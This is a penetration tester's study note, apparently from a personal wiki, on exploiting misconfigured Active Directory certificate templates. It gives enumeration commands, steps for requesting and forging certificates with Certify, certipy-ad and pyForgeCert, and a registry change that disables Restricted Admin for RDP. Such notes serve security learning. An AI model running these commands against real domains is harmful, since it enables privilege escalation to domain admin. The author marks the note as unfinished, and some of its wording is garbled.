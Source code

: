 # AD Certificate Exploitation

## Beware requires more research - look elsewhere please

This a detailed article on Active Directory Certificate Exploitation most derived from resource that reference, but also the [SpectreOps Whitepaper](https://posts.specterops.io/certified-pre-owned-d95910965cd2) that demonstrated a proof to exploit misconfigured certificate template for [[Active-Directory-Lateral-Movement]] and [[Active-Directory-Privilege-Escalation]]. 

AD Certificate Services (CS) Microsoft's Public Key Infrastructure (PKI) implementation. Trust in external  or internal organisations is grant by AD, which cane used a as CA to prove and delegate trust. AD CS is a privileged function usually run by selected DCs, but large organisation use templating of certificates to make create and distribute certificates easier to manage. As Administrators of AD CS can create several templates that can then allow any user with the relevant permissions to request a certificate. These template have parameters that can be abused.

Terminology:

Acronym | Definition
--- | --- 
PKI |  Public Key Infrastructure is a system that manages certificates and public key encryption
AD CS | Active Directory Certificate Services is Microsoft's PKI implementation which usually runs on domain controllers
CA | Certificate Authority is a PKI that issues certificates
Certificate Template | a collection of settings and policies that defines how and when a certificate may be issued by a CA
CSR | Certificate Signing Request is a message sent to a CA to request a signed certificate
EKU |  Extended/Enhanced Key Usage are object identifiers that define how a generated certificate may be us

AD CS capabilities:
- Encrypts file systems
- Creates and verifies digital signatures
- Verifies user authentication

## Enumerating and Exploiting Cert Publishers

From [spectreops.io](https://posts.specterops.io/certified-pre-owned-d95910965cd2): *"AD CS is Microsoft’s PKI implementation that provides everything from encrypting file systems, to digital signatures, to user authentication (a large focus of our research), and more. While AD CS is not installed by default for Active Directory environments, from our experience in enterprise environments it is widely deployed, and the security ramifications of misconfigured certificate service instances are enormous."*

From Unix-base attacker machine:
See [[Crackmapexec-Cheatsheet]] and [[Impacket-Cheatsheet]]
```bash
rpc net group members "Cert Publishers" -U "DOMAIN"/"User"%"Password" -S "DomainController"
# Enumeration Tools
crackmapexec ldap 'domaincontroller' -d 'domain' -u 'user' -p 'password' -M adcs
go-windapsearch -m custom --filter '(objectCategory=pKIEnrollmentService)' --base 'CN=Configuration,DC=domain,DC=local' --attrs dn,dnshostname --dc 'domaincontroller' -d 'domain.local' -u 'user' -p 'password'
ntlmrelayx -t "ldap://domaincontroller" --dump-adcs
#

```
[go-windapsearch](https://github.com/ropnop/go-windapsearch)
[Certipy](https://github.com/ly4k/Certipy)

```powershell
net group "Cert Publishers" /domain

# Exploit
Certify.exe cas
```
[Certify C# Tool](https://github.com/GhostPack/Certify)

## Enumerating and Exploiting Vulnerable Certificate Templates

From [spectreop.io](https://posts.specterops.io/certified-pre-owned-d95910965cd2):*"AD CS Enterprise CAs issue certificates with settings defined by AD objects known as certificate templates. These templates are collections of enrollment policies and predefined certificate settings and contain things like “How long is this certificate valid for?”,“What is the certificate used for?”, “How is the subject specified?”, “Who is allowed to request a certificate?”, and a myriad of other settings...There is a specific set of settings for certificate templates that makes them extremely vulnerable. As in regular-domain-user-to-domain-admin vulnerable."*

From [Oliver Lyak's Twitter](https://twitter.com/ly4k_):
![](vulnerable-configurations-foresc1-esc2-esc3.png)

```powershell
certutil -v -template > cert_templates.txt
```

BEWARE VULNERABLITY != condition for PrivEsc, Human intervention from admins and domain controllers, you want to find all three: for each Template\[X\] find toxic parametre: ##

1. Relevant Permissions

A template where we have the relevant permissions to request the certificate or where we have an account with those permissions. Either Allow Enroll or Allow Full Control, probably will never find the latter
Template permissions are mostly assigned by group.
```powershell
net user <username> /domain
```

Look for these groups:
-  Domain Users 
- Domain Computers 
- Review all certificate permissions, lateral movement direction of an account that is potential vulnerable to compromise in the future .

2. Client Authentication
A template that allows client authentication, meaning we can use it for [Kerberos authentication]([[Active-Directory-Kerberos-Authenication-Defined]])
Review EKU properties of the template to find the words Client Authentication

3. Client Specifies Subject Alternative Name (SAN)
A template that allows us to alter the subject alternative name (SAN)
Usually a url that we then encrypt, 
```powershell
findstr "CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT" 
```
If  CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT = 1 we can specify the SAN ourselves


## Manual CS Abuse

Make a new Certificate with an RDP session - From [Alh4zr3d stream](https://www.twitch.tv/videos/1829218217) 
- `Search 'MMC' -> File -> Add/Remove Snap-in -> Certificate -> Add -> $account -> 'Snap-in always manage:' Local computer -> Ok`
- Find from `MMC` main: `Console Root -> Certificate (Local Computer) -> Trusted Root Certification Authority\ Certificates -> $yourCertInThisList -> [Left Click] to view, Edit Properties..., Copy to File...`
- Request a new Certificate `Console Root -> Certificate (Local Computer)\Personal -> [Right Click] Request New Certificate... -> Next -> Next (Configured by you or Configured by your administrator) -> Click to Configure settings`
	-  Subject Tab
		- Subject Name:
			- Type
			- Value
		- Alternative Name
			- Type
			- Value
	-  Private Key Tab
		- `Key Options -> [Tick] Make Private Key Exportable`  
- `Enroll`  after selecting Certificate on the Request Certificates 
- Export Certificate with `[Right Click] on Certificate -> All Tasks -> Export`
	- Export with Private Key - You need to Private Key
		- Make sure you have selected the option to make Private Key exportable in the `Private Key Tab`!
	- Disable Certificate Privacy
	- Create a Password
	- Export
	- 
 Get it back to your box somehow
```bash
certipy-ad cert -export -pfx ./admincCert.pfx -password "yourpassword" -out "unprotected.pfx"
certipy-ad auth -dc-ip 10.200.117.102 -ns 10.200.117.102 -pfx unprotected.pfx
```

Disable Restricted-Administrator settings to allow for RDP. Not Opsec safe if not obvious.
```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Export the certificate manual GUI non-usb-Mr-Robot-style  and either use C\# [GhostPack/ForgeCert](https://github.com/GhostPack/ForgeCert) or Python [pyForgeCert](https://github.com/Ridter/pyForgeCert) to forge certificate
```bash
python3 pyForgeCert.py -i $infile -pfx -p 'PasswordGoesHere' -s 'SubjectNameGoesHere' -a 'AltNameGoesHere' -o $outputPath 
```

Then export the certificate and authenticate
```bash
# Export
certipy-ad cert -export -pfx $forgedAdmin.pfx -password "yourpassword" -out "unprotected.pfx"
# Authenicate
certipy-ad auth -dc-ip 10.200.117.102 -ns 10.200.117.102 -pfx unprotected.pfx
```

## Certipy

[[Certipy]]

####  Impersonation Attacks via Certificates 
[[Rubeus-Cheatsheet]]




# TODO scripting 
!! Line numbers /N
```powershell
find cert_template.txt "Allow Enroll"
# find cert_template.txt "Allow Full Control"
find cert_template.txt "Client Authentication"
find cert_template.txt "CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT"
```
put line numbers in an array, compare shortest with the others
if arrEnroll[i] is in a range of (+10 or -10) of arrAuth[j]

### Add 
- Certificate Authority are setup to sign encryption, authentication, emails, TLS/SSL encrytion, governance and policy. PKI is Public Key infrastructure, Microsoft AD CS is the builtin PKI. Commonly used for generate SSL for internal certificates for internal websites. PKInit exploit s4u attack
 SChannel is a created LDAP session with a certificate.


## References

[THM AD Certificate Templates Room](https://tryhackme.com/room/adcertificatetemplates)
[thehacker.recipes AD-CS](https://www.thehacker.recipes/ad/movement/ad-cs)
[thehacker.recipes Certificate Templates](https://www.thehacker.recipes/ad/movement/ad-cs/certificate-templates)
[spectreops.io certificate pre-owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
[Oliver Lyak's Twitter](https://twitter.com/ly4k_)
[Alh4zr3d stream](https://www.twitch.tv/videos/1829218217) 